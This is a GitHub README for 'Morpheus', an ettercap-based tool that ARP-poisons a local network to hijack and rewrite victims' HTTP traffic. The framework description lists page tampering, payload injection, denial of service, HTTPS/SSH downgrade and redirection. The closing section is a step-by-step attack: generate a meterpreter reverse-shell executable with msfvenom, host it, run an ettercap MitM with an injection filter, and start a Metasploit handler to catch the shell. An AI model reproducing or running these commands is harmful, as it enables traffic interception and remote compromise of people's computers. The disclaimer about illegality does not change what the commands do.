 [![Version](https://img.shields.io/badge/MORPHEUS-1.1-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-developing-red.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-linux-orange.svg)]()
[![Github All Releases](https://img.shields.io/github/downloads/atom/atom/total.svg)]()
[![AUR](https://img.shields.io/aur/license/yaourt.svg)]()

# Morpheus - automated ettercap TCP/IP Hijacking tool
    Version release : v1.1-Alpha
    Author : pedro ubuntu  [ r00t-3xp10it ]
    Distros Supported : Linux Ubuntu, Kali, Mint, Parrot OS
    Suspicious-Shell-Activity (SSA) RedTeam develop @2016

# LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use
    of this tool, remember that attacking targets without prior
    consent is illegal and punished by law.

# Framework description
    morpheus.sh framework automates tcp/udp packet manipulation tasks by using
    ettercap filters to manipulate target http requests under MitM attacks
    replacing the http packet contents by our own contents befor sending the
    packet back to the host that have request for it (tcp/ip hijacking).

    work flow:
    1º - arp poison local lan (mitm)
    2º - target requests webpage from network
    3º - attacker modifies webpage response
    4º - modified packet its forward back to target

# What can we acomplish by using filters?
    morpheus ships with a collection of etter filters writen be me to acomplish various tasks:
    replacing images in webpages, replace text in webpages, inject payloads using html <form> tag
    denial-of-service attack (drop,kill packets from source), https/ssh downgrade attacks, redirect
    target browser traffic to another ip address (domain) and also gives you the ability to build
    compile your filter from scratch and lunch it through morpheus framework.

    "Using etter filters allow us to do mutch more than this, but unfortunately i dont know more :("

# Framework limitations
    1º - morpheus will fail if target system its protected againt ARP poison attacks
    2º - morpheus will fail if browser target as installed addon's againts arp/mitm
    3º - downgrade attacks will fail if browser target as installed no-http addon
    4º - target system sometimes needs to clear net cache to arp poison be effective
    5º - replacement string must have the same length as original string to replace
         "eg. replace("word_hello", "hello_word"); <-- the same number of leters"

# Dependencies
    ettercap, zenity

# Credits
    alor&naga (ettercap framework) || ir0ngeek (first filters i've seen)
    "Most of this examples are described in etter.filter (ettercap default install)"
[ettercap linux man pages](https://linux.die.net/man/8/ettercap)

<br />
# Framework help argument
![morpheus v1.0-Alpha](https://dl.dropboxusercontent.com/u/21426454/morpheus-description.png)

# Framework Main Menu
![morpheus v1.0-Alpha](https://dl.dropboxusercontent.com/u/21426454/morpheus-banner.png)


<br />
---

# Build msfvenom binary
    sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=666 -f exe -o payload.exe

# Compile [filter].eft filter into iframe.ef
    sudo etterfilter /root/iframe.eft -o /root/iframe.ef

# copy files to apache2 webroot
    sudo cp /root/payload.exe /var/www/html

# Sart apache2 service
    /etc/init.d/apache2 start

# ip_forwarding
    echo "1" > /proc/sys/net/ipv4/ip_forward

# run ettercap mitm+filter
    sudo ettercap -T -q -i wlan0 -F /root/iframe.ef -M ARP /targetip/ /routerip/


# IF YOUR PC USES IPV6 THEN USE THIS CONFIG INSTEAD OF THE ABOVE CODE
    sudo ettercap -T -q -i wlan0 -F /root/iframe.ef -M ARP /targetip// /routerip//


# Start a multi-handler
    sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.67; set LPORT 666; set PAYLOAD windows/meterpreter/reverse_tcp; exploit -j -k'


_EOF
